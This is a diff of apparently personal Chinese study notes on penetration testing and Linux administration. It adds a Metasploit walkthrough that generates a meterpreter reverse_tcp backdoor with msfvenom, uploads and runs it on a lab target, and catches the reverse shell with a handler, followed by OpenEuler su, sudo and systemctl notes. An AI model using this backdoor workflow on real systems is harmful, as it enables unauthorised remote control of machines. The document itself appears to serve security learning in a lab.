

Before and after one commit to swdxiaoxiao/witer_markdown, a Markdown page: 笔记.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/笔记.md
+++ b/笔记.md
@@ -698,3 +698,88 @@ IPv6由128个bit组成
 >>set rhosts 192.168.10.143
 >//运行
 >run
+
+### Msfvenom后门
+创建后门 Shell
+>msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.10.224 lport=4444 -f elf -o shell
+
+将Shell上传到目标主机 /mnt目录
+>scp shell root@192.168.10.143:/mnt
+>//如果报错
+>>Unable to negotiate with 192.168.10.143 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
+scp: Connection closed
+>//修改.ssh/config配置文件
+>>Host *
+HostkeyAlgorithms +ssh-rsa
+PubkeyAcceptedkeyTypes +ssh-rsa
+
+//在目标主机运行
+>chmod +x /mnt/shell
+>// 后台运行
+>/mnt/shell &
+
+### 在 MSF 中运行监听脚本，接受后门连接
+//使用侦听工具
+use exploit/multi/handler
+//设置本地IP
+set lhost 192.168.10.224
+//设置侦听端口
+set lport 4444
+//设置有效负载为Linux x86架构下的Meterpreter反向TCP连接方式
+set payload linux/x86/meterpreter/reverse_tcp
+//运行
+ruu
+
+# OpenEuler
+### su 切换用户
+**授权与解除限制**
+OpenEuler中为了安全考虑，禁止随意使用su。如果想使用su，需要将用户加入到wheel组
+`gpasswd -a 用户 wheel`
+将su限制解除
+`vim /etc/pam.d/su/ `==删除或注释配置：auth required wheel so ... #929292==
+**切换到新用户的登陆环境**
+`su - 用户名`
+切换用户需要输入对应密码
+**返回原来的用户**
+exit
+**su日志**
+/var/log/secure
+### sudo
+sudo命令代表超级用户正在执行某命令
+进行sudo授权，打开sudo授权表
+`visudo`==用户或%用户组 主机=(用户身份)可以执行的命令 #929292==
+==如 >> zy ALL=ALL << #929292==
+**提权**
+>sudo -i
+
+**sudo日志**
+sudo默认没有开启日志记录
+手动开启日志记录
+`visudo`
+添加配置:
+`Defaults logfile= /var/log/sudo`
+==如果用户执行了sudo命令,都会记录在var/log/sudo日志中 #929292==
+==sudo执行时需要输入当前用户的密码(五分钟内只需要输入一次密码) #929292==
+
+### systemctl 系统控制
+**列出所有服务**
+>systemctl --type service
+
+**启动服务**
+>systemctl start 服务名
+
+**停止服务**
+>systemctl stop 服务名
+
+**重启服务**
+>systemctl restart 服务名
+
+**允许开机自启**
+>systemctl enable 服务名
+
+**允许开机自启，并立即启动**
+>systemctl enable --now 服务名
+
+**禁止开机自启**
+>systemctl disable 服务名
+
```
Also changed, not shown: other parts of 笔记.md (+67 -2 lines).
